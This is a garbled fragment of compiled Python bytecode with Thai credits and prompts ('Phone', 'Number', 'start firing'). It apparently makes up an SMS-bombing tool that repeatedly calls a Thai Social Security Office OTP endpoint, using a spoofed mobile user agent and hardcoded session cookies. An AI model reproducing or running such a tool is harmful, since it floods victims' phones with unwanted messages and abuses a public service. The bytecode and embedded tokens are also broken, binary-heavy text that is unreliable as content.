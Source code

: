 [+]\xe2\x80\x8b\xe0\xb8\x88\xe0\xb8\xb1\xe0\xb8\x94\xe0\xb8\x97\xe0\xb8\xb3\xe0\xb9\x82\xe0\xb8\x94\xe0\xb8\xa2FB:\xe0\xb8\xaa\xe0\xb8\xa3\xe0\xb8\x81\xe0\xb8\xa4\xe0\xb8\x8a \xe0\xb8\x99\xe0\xb8\x99\xe0\xb8\x97\xe2\x80\x8b\xe0\xb8\xa7\xe0\xb8\x87\xe0\xb8\xa8\xe0\xb9\x8c\xe2\x80\x8b\xf0\x9f\x98\x8euR\x00\x00\x00             [+]\xe2\x80\x8b\xe0\xb9\x80\xe0\xb8\x84\xe0\xb8\xa3\xe0\xb8\x94\xe0\xb8\xb4\xe0\xb8\x95 FB:\xe0\xb8\xaa\xe0\xb8\xa3\xe0\xb8\x81\xe0\xb8\xa4\xe0\xb8\x8a \xe0\xb8\x99\xe0\xb8\x99\xe0\xb8\x97\xe0\xb8\xa7\xe0\xb8\x87\xe0\xb8\xa8\xe0\xb9\x8c\xf0\x9f\x8e\xadu\x1e\x00\x00\x00             [+]\xe2\x80\x8b8api\xf0\x9f\x98\x88\xe2\x80\x8bz\tPhone :> u\r\x00\x00\x00Number\xe2\x80\x8b :> uQ\x00\x00\x00-------------------- \xe0\xb9\x80\xe0\xb8\xa3\xe0\xb8\xb4\xe0\xb9\x88\xe0\xb8\xa1\xe0\xb8\x81\xe0\xb8\xb2\xe0\xb8\xa3\xe0\xb8\xa2\xe0\xb8\xb4\xe0\xb8\x87 -----------------------\xe2\x80\x8bc\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x02\x00\x00\x00\x07\x00\x00\x00C\x00\x00\x00sb\x00\x00\x00z*d\x01}\x00t\x00j\x01d\x02d\x03d\x04d\x05d\x06d\x07\x9c\x04d\x08t\x02\x9b\x00d\t\x9d\x03d\n\x8d\x03}\x01t\x03|\x00\x83\x01t\x03|\x01j\x04\x83\x01v\x00r$t\x05d\x0b\x83\x01\x01\x00W\x00d\x00S\x00t\x05d\x0b\x83\x01\x01\x00W\x00d\x00S\x00\x01\x00\x01\x00\x01\x00Y\x00d\x00S\x00)\x0cNZ\x06Mobilez4https://www.sso.go.th/wpr/MEM/terminal/ajax_send_otp\xfayMozilla/5.0 (Linux; Android 10; Redmi 8A) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.85 Mobile Safari/537.36z0application/x-www-form-urlencoded; charset=UTF-8\xda\x0eXMLHttpRequesta]\x03\x00\x00sso_local_storeci_sessions=KHj9a18RowgHYWbh71T2%2FDFAcuC2%2FQaJkguD3MQ1eh%2FlwrUXvpAjJgrm6QKAja4oe7rglht%2BzO6oqblJ4EMJF4pqnY%2BGtR%2F0RzIFGN0Suh1DJVRCMPpP8QtZsF5yDyw6ibCMf2HXs95LvAMi7KUkIeaWkSahmh5f%2F3%2FqcOQ2OW5yakrMGA1mJ5upBZiUdEYNmxUAljcqrg7P3L%2BGAXxxC2u1bO09Oz4qf4ZV9ShO0gz5p5CbkE7VxIq1KUrEavn9Y%2BarQmsh1qIIc51uvCev1U1uyXfC%2F9U7uRl7x%2FVYZYT2pkLd3Q7qnZoSNBL8y9wge8Lt7grySdVLFhw9HB68dTSiOm1K04QhdrprI7EsTLWDHTgYmgyTQDuz63YjHsH5MUVanlfBISU1WXmRTXMKbUjlcl0LPPYUR9KWzrVL7sXcrCX%2FfUwLJIU%2F7MTtDYUx39y1CAREM%2F8dw7AEjcJAOA%3D%3D684b65b9b9dc33a3380c5b121b6c2b3ecb6f1bec; PHPSESSID=1s2rdo0664qpg4oteil3hhn3v2; TS01ac2b25=01584aa399fbfcc6474d383fdc1405e05eaa529fa33e596e5189664eb7dfefe57b927d8801ad40fba49f0adec4ce717dd5eabf08d7080e2b85f34368a92a47e71ef07861a287c40da15c0688649509d7f97eb2c293; _ga=GA1.3.1824294570.1636876684;